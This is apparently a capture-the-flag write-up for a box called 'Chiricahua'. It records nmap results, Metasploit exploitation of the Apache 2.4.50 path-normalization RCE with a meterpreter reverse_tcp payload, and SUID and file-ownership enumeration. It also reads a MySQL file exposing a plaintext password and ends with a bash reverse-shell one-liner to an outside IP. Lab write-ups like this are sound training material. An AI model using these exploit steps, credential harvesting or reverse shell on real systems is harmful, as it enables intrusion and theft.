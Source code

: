 # recon 
## _nmap_
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 524aa8716d9280f404454297cefa23ed (RSA)
|   256 7b9a0cc3b59470313032633af5cba7f8 (ECDSA)
|_  256 d6e04937f74d8499daf1ca88dbb0261d (ED25519)
80/tcp open  http    Apache httpd 2.4.50 ((Unix))
|_http-server-header: Apache/2.4.50 (Unix)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Chiricahua
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# exploit
msf6 > search apache 2.4.50
msf6 > use 0
[-] Using configured payload linux/x64/meterpreter/reverse_tcp
[msf6 exploit(multi/http/apache_normalize_path_rce)] > set ssl false
[msf6 exploit(multi/http/apache_normalize_path_rce)] > set rport 80

# foothold
## _enum_
$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
-rwsr-xr-x 1 root root 46384 Oct  5  2021 /usr/local/apache2/bin/suexec
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
```
$
```
find / -user geronimo  2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
	/etc/init.d/goyahkla
	/etc/mysql/war.sql

$ 
```
cat /etc/mysql/war.sql
```
	CREATE USER 'guujiya'@'localhost' IDENTIFIED BY '6yFwwB4yNfWQAAbQ';
	GRANT ALL PRIVILEGES ON war.* TO 'guujiya'@'localhost';

$
```
cat /etc/init.d/goyahkla
```
	#!/bin/sh
	while [ true ];
	do
	    new_files=$(find /home/geronimo -mmin -5 -type f)
	    for file in $new_files;
	    do
	        rm $file
	    done
	    sleep 1
	done

```
grep -r "/etc/init.d/goyahkla" / 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```

```
bash -i >& /dev/tcp/10.201.1.201/1234 0>&1
```